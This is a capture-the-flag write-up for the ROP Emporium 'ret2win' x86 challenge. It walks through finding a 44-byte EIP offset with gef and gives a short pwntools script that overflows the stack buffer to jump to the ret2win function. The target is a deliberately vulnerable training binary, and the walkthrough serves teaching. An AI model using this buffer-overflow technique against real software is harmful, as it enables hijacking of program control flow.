 +++
title = 'ROP : ret2win (x86)'
date = 2021-10-10T16:15:06+01:00
draft = false
tags = ["pwn", "reverse-engineering"]
description = ""
showFullContent = false
+++

For the x86 version of the challenge, we can see that the program contains the following functions : 

```nasm
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08048374  _init
0x080483b0  read@plt
0x080483c0  printf@plt
0x080483d0  puts@plt
0x080483e0  system@plt
0x080483f0  __libc_start_main@plt
0x08048400  setvbuf@plt
0x08048410  memset@plt
0x08048420  __gmon_start__@plt
0x08048430  _start
0x08048470  _dl_relocate_static_pie
0x08048480  __x86.get_pc_thunk.bx
0x08048490  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
0x08048660  __libc_csu_init
0x080486c0  __libc_csu_fini
0x080486c4  _fini
```

We get a bunch of not-so-interesting functions, as well as a `main`, `pwnme` and `ret2win` function. They are used for the following : 

- `main (0x08048546)` : nothing much except calling for the pwnme function
- `pwnme (0x080485ad)` : get the user input
- `ret2win (0x0804862c)` : target, prints the flag

Here’s how the `pwnme` function looks in Ghidra : 

```c
void pwnme(void)

{
  undefined input [40];
  
  memset(input,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,input,0x38);
  puts("Thank you!");
  return;
}
```

Now, we know that we’ll have to overwrite the `eip` register in order to make it point to `0x0804862c`.

To find the offset, we can use a De Bruijn sequence in order to find the offset that we’ll have to pass to our program in order to overwrite that register. Let’s do it in gdb : 

```nasm
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
```

Now, we insert a breakpoint right after the `read` function, and pass our sequence to see how it looks on the stack. 

```nasm
gef➤  b *0x08048616
Breakpoint 1 at 0x8048616
gef➤  r
Starting program: /home/dalf/ctf/ctf-writeups/ropemporium/ret2win/ret2win32
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

With our input, the registers looks like this : 

```nasm
────────────────────────────────────────────────── registers ────────────────────────────────────────────────── 
$eax   : 0xb
$ebx   : 0xf7fab000  →  0x00229dac
$ecx   : 0xf7fac9b4  →  0x00000000
$edx   : 0x1
$esp   : 0xffffd460  →  0x6161616d ("maaa"?)
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0xffffd534  →  0xffffd687  →  "/home/dalf/ctf/ctf-writeups/ropemporium/ret2win/re[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x6161616c ("laaa"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
```

As we can see, our $eip was overwritten with the value `0x6161616c`. To find the offset, we can use the gef command `pattern offset` with the content of it (0x6161616c). 

```nasm
gef➤  pattern offset 0x6161616c
[+] Searching for '6c616161'/'6161616c' with period=4
[+] Found at offset 44 (little-endian search) likely
```

We now have the info that we were looking for, the offset is 44 bytes away. Now we can build our exploit: 

```nasm
from pwn import *
target = process('./ret2win32')

payload = b""
payload += b"A"*44
payload += p32(0x0804862c)

target.sendline(payload)
target.interactive()
```

… and run it : 

```bash
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

VAMONOS
